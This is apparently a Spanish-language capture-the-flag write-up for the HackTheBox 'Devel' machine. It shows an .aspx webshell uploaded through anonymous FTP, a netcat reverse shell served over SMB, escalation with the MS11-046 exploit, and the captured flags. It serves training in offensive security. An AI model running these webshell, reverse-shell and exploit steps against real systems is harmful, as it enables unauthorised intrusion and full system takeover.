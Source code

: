 ```yaml
---
title: HackTheBox - Devel
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Devel/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Devel Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Devel`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Devel/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Devel/02-versions.png)

    + [x] Se encuentra habilitado la opción de **Login como un usuario anónimo en FTP**, con lo cual podemos acceder a este servicio sin necesidad de .credenciales.
    + [x] En el puerto **80** se ejecuta un **`IIS`** (Internet Information Services).

c. Accedemos al servicio **FTP** como **anonymous** y listamos el contenido

```bash
ftp <IP>
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49248|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

* Entramos a la página web y analizamos el código fuente. Veremos que la imagen que se presenta tiene por nombre **welcome.png**, que es el mismo fichero que está en el servicio **FTP**.

* Subiremos un archivo de prueba para ver si podemos acceder a este desde en servicio web.

    ```s
    ftp> put test.txt test.txt
    226 Transfer complete.
    ```

* Ahora vamos al servicio web y accedemos a este recurso

![](/assets/images/HTB/Easy/Devel/03-test.png)

d. Como notamos, el archivo que subimos al servicio **FTP** se refleja en el servicio web, por tanto, subiremos una **`webshell` .aspx** > [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

* Con esto ya podemos ejecutar comandos en la **Máquina Víctima**

    ![](/assets/images/HTB/Easy/Devel/04-webshell.png)

* **Obtener una reverse shell** 🔀

    1. Nos descargamos [nc](https://eternallybored.org/misc/netcat/) en nuestra **`Máquina Atacante`**
    2. Compartimos un recurso por **SMB**: **`impacket-smbserver Share ./ -smb2support`**
    3. En la **webshell** ejecutamos el comando **`copy \\<tun0 IP>\Share\nc.exe C:\Windows\Temp`**
    4. Nos ponemos en escucha en nuestra **`Máquina Atacante`**: **`nc -lvnp 443`**
    5. Ejecutamos netcat en la **`Máquina Víctima a través de la Webshell`**:

        ![](/assets/images/HTB/Easy/Devel/05-reverse.png)

    * **Máquina Atacante**

        ```bash
        connect to [10.10.14.115] from (UNKNOWN) [10.10.10.5] 49245
        Microsoft Windows [Version 6.1.7600]
        Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
        c:\windows\system32\inetsrv>
        ```

### Escalada de Privilegios 💹

a. Enumeramos la información del sistema con **`systeminfo`**

```cmd
OS Name:            Microsoft Windows 7 Enterprise
OS Version:         6.1.7600 N/A Build 7600
OS Manufacturer:    Microsoft Corporation
```

 * Vemos que es una versión antigua de Windows

b. Al buscar por un exploit para esta versión de Windows vemos [ms11-046](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

c. Para transferir este exploit a la **Máquina Víctima** seguiremos los mismos pasos de **Obtener una reverse shell 🔀**

d. Ejecutamos el script y ya tendremos acceso como **Administrador**

```bash
C:\Windows\Temp>ms11-046.exe
c:\Windows\System32>whoami
nt authority\system
```

e. Por último vemos las **flags de usuario y root**

```cmd
c:\Users\babis\Desktop>type user.txt
48d0837eebb3f87ba7cf0be20ee53012

C:\Users\Administrator\Desktop>type root.txt
3ee446d2151a7627cd28cf5e5f4075ce
```